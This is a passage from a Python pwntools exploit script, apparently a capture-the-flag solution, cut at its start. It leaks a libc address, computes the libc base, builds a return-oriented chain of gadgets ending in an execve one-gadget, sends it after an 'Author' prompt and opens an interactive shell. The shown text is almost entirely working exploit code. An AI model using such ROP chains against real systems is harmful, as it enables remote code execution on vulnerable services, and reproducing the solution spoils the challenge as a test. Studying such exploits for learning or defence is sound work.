print(len(recvs)-2)

libc_addr=u64_fix(p)
libcbase=libc_addr-0x80e50
dir("libcbase")
execve=0xebc88+libcbase
rsi_ret=0x000000000002be51+libcbase
rdx_r12_ret=0x000000000011f2e7+libcbase

p.recvuntil(b'Author')
payload=p64(bss+0x500)*(48//8)
payload+=p64(rsi_ret)+p64(0)+p64(rdx_r12_ret)+p64(0)*2
payload+=p64(execve)
p.sendline(payload)


p.interactive()

'''

'''

```
